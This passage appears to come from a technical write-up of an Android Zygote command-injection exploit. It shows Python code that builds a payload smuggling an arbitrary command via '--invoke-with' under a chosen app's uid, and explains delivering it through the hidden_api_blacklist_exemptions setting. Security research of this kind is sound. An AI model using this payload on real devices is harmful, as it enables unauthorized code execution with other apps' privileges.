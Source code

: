 At the end of the variable, we include a few blank lines at the beginning and some commas with an 'X' at the end as _padding_; their purpose will become clear in the next section. For now, we know it works, so we leave them in.

```python 
{% highlight python linenos %}
def make_payload(app, command):
    # get user id
    uid = get_app_uid(app)
    if uid is None:
        print("[-] Error: can't find uid.")
        return

    # construct zygote command
    payload = "8" + "\n"
    payload += "--runtime-args" + "\n"
    payload += f"--setuid={uid}" + "\n"
    payload += f"--setgid={uid}" + "\n"
    if is_system_app(app):
        payload += "--seinfo=platform:privapp:targetSdkVersion=30:complete" + "\n"
    else:
        payload += "--seinfo=default:targetSdkVersion=30:complete" + "\n"
    payload += "--runtime-flags=1" + "\n"
    payload += "--nice-name=zYg0te" + "\n"
    payload += "--invoke-with" + "\n"
    payload += command + " ; #" + "\n"
    
    # Padding in the top:
    # we leave five new lines before the command's argument count (8)
    # because when system server send the command to Zygote it places a 6
    # arguments count over --set-api-blacklist-exemptions
    top_padding = 5
    payload = "\n" * top_padding + payload

    # Padding in the bottom
    # We leave 7 commas and a X to delay a bit the  zygote read
    # because those commas are splited before... or because the guy of meta
    # says so.
    payload += ",,,,X"   + "\n"
    
    return payload
{% endhighlight %}
```

### Exploit

The function that executes the exploit steps performs the same actions we previously did manually: it writes the _payload_ to a file, uploads it to the emulator, modifies the value of `hidden_api_blacklist_exemptions`, then resets it to "null", and finally opens the _Settings_ app to avoid having to manually go into settings again for the exploit to work. Note that at the start of the function, a command is also sent to close _Settings_, ensuring that it fully opens at the end.

It’s important to note that when assigning the value of the _payload_ to the `hidden_api_blacklist_exemptions` variable, we don’t use the function defined at the beginning to interact with `adb`, because this specific step didn’t work directly with `adb shell ...` from the computer. It only worked by entering the _interactive shell_ and executing the command from there, which triggered the vulnerability.
